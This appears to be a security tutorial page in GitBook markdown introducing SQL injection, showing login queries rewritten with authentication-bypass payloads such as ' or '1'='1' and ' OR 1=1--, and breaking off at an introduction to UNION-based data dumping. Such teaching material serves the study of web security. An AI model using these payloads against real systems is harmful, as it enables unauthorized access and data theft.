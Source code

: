 ```yaml
---
icon: syringe
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# SQL Injection

An SQL injection occurs when user-input is inputted into the SQL query string without properly sanitizing or filtering the input.

## Logical Operators

### ' or '1'='1'

```sql
SELECT * FROM users WHERE username='admin' AND password = 'password';
```

<figure><img src="../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

```sql
SELECT * FROM users WHERE username='admin' or '1'='1' AND password = 'password';
```

{% hint style="warning" %}
This example requires a username to be known and correct.
{% endhint %}

### ' or '1' = '1 x2

```sql
SELECT * FROM users WHERE username='admin' AND password = 'password';
```

<figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

```sql
SELECT * FROM users WHERE username='' or '1'='1' AND password = '' or '1' = '1;
```

## Comments

### '--&#x20;

```sql
SELECT * FROM users WHERE username = 'admin' AND password = 'password'
```

```sql
SELECT * FROM users WHERE username='admin'-- ' AND password = 'something';
```

{% hint style="warning" %}
This example requires a username to be known and correct.
{% endhint %}

### ' OR 1=1--

```sql
SELECT * FROM users WHERE username = 'admin' AND password = 'password'
```

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

```sql
SELECT * FROM users WHERE username = '' OR 1=1-- ' AND password = 'password'
```

## Union Clause

The [Union](https://dev.mysql.com/doc/refman/8.0/en/union.html) clause is used to combine results from multiple `SELECT` statements. This means that through a `UNION` injection, we will be able to `SELECT` and dump data from all across the DBMS, from multiple tables and databases. Let us try using the `UNION` operator in a sample database.

